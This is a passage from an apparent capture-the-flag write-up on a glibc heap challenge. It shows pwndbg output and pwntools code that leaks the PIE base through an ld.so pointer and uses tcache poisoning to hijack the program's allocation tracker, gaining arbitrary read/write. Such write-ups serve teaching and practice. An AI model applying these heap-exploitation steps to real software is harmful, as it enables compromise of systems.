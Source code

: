 

The player can even find pointers that point to the `base binary` `mappings`:

```
pwndbg> search -t pointer 0x558518ffa000
Searching for value: b'\x00\xa0\xff\x18\x85U\x00\x00'
ld.so           0x7f68c195eaa0 0x558518ffa000
ld.so           0x7f68c1961300 0x558518ffa000
ld.so           0x7f68c1961670 0x558518ffa000
```

Choosing any of the `ld.so` addresses will do. I chose the one in the middle, namely:

```
pwndbg> xinfo 0x7f68c1961300
Extended information for virtual address 0x7f68c1961300:

  Containing mapping:
    0x7f68c1960000     0x7f68c1962000 rw-p     2000  32000 /chal/garbage-is-easy/glibc/ld.so

  Offset information:
         Mapped Area 0x7f68c1961300 = 0x7f68c1960000 + 0x1300
         File (Base) 0x7f68c1961300 = 0x7f68c192d000 + 0x34300
         File (Disk) 0x7f68c1961300 = [not file backed]
```



Getting a `PIE` leak can be achieved like the following:

```python
# Get a PIE leak
base_ptr = ld + 0x34300
malloc(0x100-0x8, p64(base_ptr))                # Put ld.so pointer to base in bin

malloc(0x100-0x8, b'\x08')                      # malloc() the ld.so pointer and read the pointer to get PIE, 
                                                # making sure to overwrite the lower null-byte so puts can read

elf.address = int(see(9)[::-1].hex(), 16) - 8   # Parse the leak (and subtract the null-byte overwriting)
info('Base address: %s' % hex(elf.address))
```



###### Unlimited power (Actually taking control over the `malloc indexer` (`&garbage_truck`))

The final (`11th`) call to `malloc()` will be the last one that's needed. By now, the player probably has a pretty good understanding of how to make `arbitrary r/w` via `t-cache`, and using the `PIE` leak, the player can now successfully hijack the `&garbage_truck`:

```python
# Taking control of &garbage_truck (the malloc indexer) 
edit(8, p64(elf.symbols['garbage_truck'])) # Set the next tcache addr directly to garbage_truck

payload =  p64(0xdeadbeefcafebabe)              # Entry 0 will be the 'buffer' for operations
payload += p64(elf.symbols['garbage_truck'])    # Entry 1 will be the buffer for entry 0
payload += p64(heap_leak + 0x100)               # Entry 2 will be the next tcache pointer
payload += p64(elf.symbols['garbage_truck']+88) # Entry 3 will control the malloc counter
malloc(0x100-0x8, payload)                      # malloc() on top of &garbage_truck and write payload
```
